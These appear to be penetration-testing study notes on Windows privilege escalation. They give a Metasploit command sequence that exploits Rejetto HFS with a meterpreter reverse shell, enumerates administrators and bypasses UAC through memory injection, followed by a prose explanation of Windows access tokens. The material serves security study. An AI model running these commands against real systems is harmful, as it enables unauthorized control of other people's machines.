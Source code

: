 

## <mark style="color:red;">Windows Privilege Escalation: Bypassing UAC</mark>

* User Account Control (UAC) is a Windows security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the operating system.
* UAC is used to ensure that changes to the operating system require approval from the administrator.
* We can utilize the “Windows Escalate UAC Protection Bypass (In Memory injection)” module to bypass UAC by utilizing the trusted publisher certificate through process injection. It will spawn a second shell that has the UAC flag turned off.

**Practical Demonstration**

```bash
# we will be using the "rejetto" vuln to exploit the target.
search rejetto
set payload windows/x64/meterpreter/reverse_tcp
getsystem # to automatically elevate privilege in windows sustem.
getprivs #current user privileges in Windows.
shell # spawn cmd prompt shell.

# You need a user part of the local administrator group to bypass UAC.
shell > net users # Enumerate every users on the system
shell > net localgroup administrators #Enumerate every users part of the administrator group on the system.
# the "admin" user is part of the LocalAdministrators group.

msf6 > use exploit/windows/http/bypassuac_injection # Bypass UAC with memory injection.
msf6 > use payload windows/x64/meterpreter/reverse_tcp
msf6 > set SESSIONS 1 and LPORT
msf6 > set TARGET Windows\ x64
run
#You can then use the getsystem command to elevate your privileges
msf6 > getsystem
```



## <mark style="color:red;">Windows Privilege Escalation: Token Impersonation With Incognito</mark>

**Windows Access Tokens**

* Windows access tokens are a core element of the authentication process on Windows and are created and managed by the Local Security Authority Subsystem Service (LSASS).
* A Windows access token is responsible for identifying and describing the security context of a process or thread running on a system. Simply put, an access token can be thought of as a temporary key akin to a web cookie that provides users with access to a system or network resource without having to provide credentials each time a process is started or a system resource is accessed.
* Access tokens are generated by the winlogon.exe process every time a user authenticates successfully and includes the identity and privileges of the user account associated with the thread or process. This token is then attached to the userinit.exe process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token.
* Windows access tokens are categorized based on the varying security levels assigned to them. These security levels are used to determine the privileges that are assigned to a specific token.
* An access token will typically be assigned one of the following security levels:
  * **Impersonate-level** tokens are created as a direct result of a non-interactive login on Windows, typically through specific system services or domain logons.
  * **Delegate-level** tokens are typically created through an interactive login on Windows; primarily through a traditional login or through remote access protocols such as RDP.
* Impersonate-level tokens can be used to impersonate a token on the local system and not on any external systems that utilize the token.
